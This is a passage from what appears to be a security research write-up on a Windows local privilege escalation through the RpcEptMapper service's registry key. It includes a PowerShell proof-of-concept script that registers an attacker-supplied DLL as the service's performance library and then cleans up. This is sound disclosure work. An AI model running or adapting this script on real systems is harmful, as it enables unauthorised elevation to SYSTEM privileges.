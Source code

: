 `Requested registry access is not allowed`... Hmmm, ok... It looks like it won't be that easy after all. :stuck_out_tongue:

I didn't really investigate this issue but my guess is that when we call `New-Item`, `powershell.exe` actually tries to open the parent registry key with some flags that correspond to permissions we don't have.

Anyway, if the built-in cmdlets don't do the job, we can always go down one level and invoke DotNet functions directly. Indeed, registry keys can also be created with the following code in PowerShell.

```powershell
[Microsoft.Win32.Registry]::LocalMachine.CreateSubKey("SYSTEM\CurrentControlSet\Services\RpcEptMapper\Performance")
```

![](/assets/posts/2020-11-12-windows-registry-rpceptmapper-eop/11_powershell-dotnet-createsubkey.png)

Here we go! In the end, I put together the following script in order to create the appropriate key and values, wait for some user input and finally terminate by cleaning everything up.

```powershell
$ServiceKey = "SYSTEM\CurrentControlSet\Services\RpcEptMapper\Performance"

Write-Host "[*] Create 'Performance' subkey"
[void] [Microsoft.Win32.Registry]::LocalMachine.CreateSubKey($ServiceKey)
Write-Host "[*] Create 'Library' value"
New-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Library" -Value "$($pwd)\DllRpcEndpointMapperPoc.dll" -PropertyType "String" -Force | Out-Null
Write-Host "[*] Create 'Open' value"
New-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Open" -Value "OpenPerfData" -PropertyType "String" -Force | Out-Null
Write-Host "[*] Create 'Collect' value"
New-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Collect" -Value "CollectPerfData" -PropertyType "String" -Force | Out-Null
Write-Host "[*] Create 'Close' value"
New-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Close" -Value "ClosePerfData" -PropertyType "String" -Force | Out-Null

Read-Host -Prompt "Press any key to continue"

Write-Host "[*] Cleanup"
Remove-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Library" -Force
Remove-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Open" -Force
Remove-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Collect" -Force
Remove-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Close" -Force
[Microsoft.Win32.Registry]::LocalMachine.DeleteSubKey($ServiceKey)
```
